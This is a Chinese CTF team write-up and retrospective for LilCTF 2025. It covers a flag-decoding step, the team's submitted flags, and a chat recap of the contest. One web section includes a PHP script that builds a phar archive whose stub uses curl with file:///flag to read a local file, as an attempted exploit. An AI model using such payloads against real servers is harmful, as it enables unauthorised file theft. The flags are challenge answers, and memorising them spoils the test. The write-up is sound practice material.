首先异或 983B7428B98B70FA85CB73CC8789B269183BEBE9B9FBA50FCE2B650860EDF33A988E16A820EF3BCC：
```
C494C4344564B775860445F5C635F54404470464C4F475F53643E4F51347F58354F554434733E4D7
```
然后把位序倒转过来：
```
4C494C4354467B576840545F6C535F44407440464C4F575F63344E5F31745F38455F453474334E7D
```
```
LILCTF{Wh@T_lS_D@t@FLOW_c4N_1t_8E_E4t3N}
```

### Omake


一开始没发现位翻转等价于位异或，所以最早的版本是这样的：


## \[misc\] 反馈调查
解题者：Ishisashi

提交时间：2025-08-17 20:27:19 (UTC+8)
```
本题的 flag 是：LILCTF{F4l1En_l3aV3s_Re7urN_T0_tHe1R_rO0tS}
```
```
LILCTF{F4l1En_l3aV3s_Re7urN_T0_tHe1R_rO0tS}
```
其实我不应该交这个 Flag 的。原本打算留给昌九提交，但脑子还是没有跟上手。十分后悔。

## \[web\] php_jail_is_my_cry
解题者：RenzukaCtone

在本题上花了最多时间，最后也没有解出来。

构造 phar 并进行 gzip 压缩可以绕过 php 检测，但怎么 jail 就不会了。

```php
<?php
$pharFile = __DIR__ . '/app11.phar';
if (file_exists($pharFile)) unlink($pharFile);

$phar = new Phar($pharFile);

$phar->buildFromDirectory(__DIR__ . '/project');

$stub = <<<STUB
<?php
    $ch = curl_init("file:///flag");
    curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
    curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
	echo $data;

__HALT_COMPILER(); ?>
STUB;

$phar->setStub($stub);

echo "Built compressed: $pharFile\n";
```


好累啊唉唉唉

## Omake：调查问卷


## Omake：二维码


## Omake：队名


## Omake：队长 Ishisashi 的一些感想
诸位如果在 GeekGame 或是 Hackergame 见过我的话，不知还记不记得我用过的用户名。

[GeekGame 3rd](https://github.com/PKU-GeekGame/geekgame-3rd/blob/master/ranking/score_all.csv)：「Ishisashi #赛后和阿冯CT进行」

[Hackergame 2023](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/archive/core.json)：「Ishisashi #赛前同阿冯和 CT 进行了一个」

[GeekGame 4th](https://github.com/PKU-GeekGame/geekgame-4th/blob/master/ranking/score_all.csv)：「Ishisashi #和CT打一辈子CTF #想阿冯」

当中出现的 CT 当然就是诸位在本文看到的那个 CT（RenzukaCtone）。那阿冯又是谁呢？其实就是昌九（KLEk）。

<del>因为改换圈名，时常有认识昌九的人在问「昌九是谁？」，成为了一个哏。</del>

虽说以前有一起打过 Puzzle Hunt……这次三个人一起组队打 CTF 也实在是很难得的经历呢！既然如此，光听我自己的感想可不够。

请欣赏属于整个 TeamKIC 的后日谈！

## Omake：后日谈
RenzukaCtone：这次 CTF，虽然一开始说是准备摆烂，最后为了解题连觉都没怎么睡（在家就可以凌晨解题了）。现在回想，只是自己转弯太慢，大部分时间都在进行无意义的尝试。

Ishisashi：那我又何尝不是呢？问大语言模型都还没有自己 Google 好用，代数题更是本来能秒做却拖拖拉拉地在乱做呢。

KLEk：不管怎么说，能做得出就算是好事吧？

RenzukaCtone：最后您佬也是解出了全部 math 呢，佩服佩服。

Ishisashi：强的不是我，是 Mathematica（

Ishisashi：CT 也解决了很多我不会的题呢，比如那个 V 我 50，当时我还在和昌九讨论，CT 就做出来了。

KLEk：啊对！当时我们还在焦头烂额，回过头却看见CT已经提交完flag了

RenzukaCtone：哎呀，那题也是大语言模型给出了关键信息。（大语言模型在本次比赛中最有用的一次）

Ishisashi：我和昌九也在用大语言模型啊……（

RenzukaCtone：不过赛后我也学到一招 --ignore-content-length

Ishisashi：这个确实，我还在教昌九用 curl，结果自己都不会用 curl 属于是（（（（

Ishisashi：更不用说 Windows 10 以来其实自带个 curl.exe，我还让昌九在网上下一个（（（（


RenzukaCtone：←cmd 用家

Ishisashi：只能说这次比赛对新手也不是很友好，导致昌九有了不好的体验。不过昌九做出了真·签到，这是我不及的地方，我还在死磕 pwn 签到呢（（（

KLEk：关键那个题名就挺有暗示性的来着（

RenzukaCtone：唉没有真·基本功。我也只能看看 misc, web，其它的完全磕不动。

KLEk：我甚至连这些都很费劲（（（

RenzukaCtone：我也想把那道 pwn 签到做出来，但一点基础没有果然还是很费劲。

Ishisashi：感觉那个签到可以问大语言模型，虽然我其实是直接把代码丢去 Google 找到的教程。

Ishisashi：数学题中 ez_math 和 mid_math 算是吃了一点线性代数基础的老本，感觉刚学过线性代数的人比我更会做。Linear 纯纯是 MMA 强，不是我强。baaaaaag 是大语言模型（给了我「子集和」的关键词）外加现搜的，看了会论文，却找了很久良好的矩阵构造。Space Travel 才是我比较得意的题目，做成了找规律题，但是从其它选手的 WP 来看，我的方向完全是歪打正着呢（

Ishisashi：pwn 除了签到就是爆零了……唉，一直都不太会 pwn

Ishisashi：reverse 感觉还是比较可惜，Oh_My_Uboot 那题如果让昌九在 qemu 跑跑的话，我说不定就做出来了。

RenzukaCtone：可能得专门去做训练题吧

Ishisashi：「提前放出附件」这题没拿到一血，甚至三血也晚了 11 秒，真是可惜。当时主要还是做错题了，往 PNG Master 上耗；外加要教给昌九一些知识，忙不过来。

RenzukaCtone：神奇，这道题最后也只有 41 解出

Ishisashi：对啊，明明算是 GeekGame 原题复现呢……甚至 GeekGame 那题压的是 pcap，比 tar 要难一些罢！

RenzukaCtone：感觉比 PNG Master 简单多啦

Ishisashi：说到 PNG Master……CT 是不是以为那是新穷铁道来着（（

RenzukaCtone：有过这样的想法；毕竟我只盯着那 32 字节含有较多可读字符的文件看

RenzukaCtone：没有别的线索，只能尝试往各个密码上套，当然也包括 Vigenere

RenzukaCtone：（哪来的密钥

Ishisashi：毕竟这一回可没有列车车次了（笑）

KLEk：不管怎么样，大家都在这场夺旗赛上得到了成长吧（笑）虽然我是最没资格说这种话的

Ishisashi：那毕竟也是这比赛有点新手不友好啦……像 GeekGame 和 Hackergame，是有分阶段 Flag 的，做出一部分就可以得一定分。

Ishisashi：本次比赛中 ez_math 和 mid_math 两题就类似于这种模式，但其它题目就没见到有。

RenzukaCtone：喜欢分阶段 flag

Ishisashi：虽然没进前 20 还是有些遗憾，总之我们队还是进了前 40 的！

Ishisashi：就如昌九所说，得到成长才是最重要的。这并不只是技术上的，团队协作的经验也很重要。

Ishisashi：没拿到一血，所以和昌九吵了一架……这种事情以后还是不要有啦！

Ishisashi：LilCTF 2025 TeamKIC 座谈，到此结束！撒花


<!--  -->
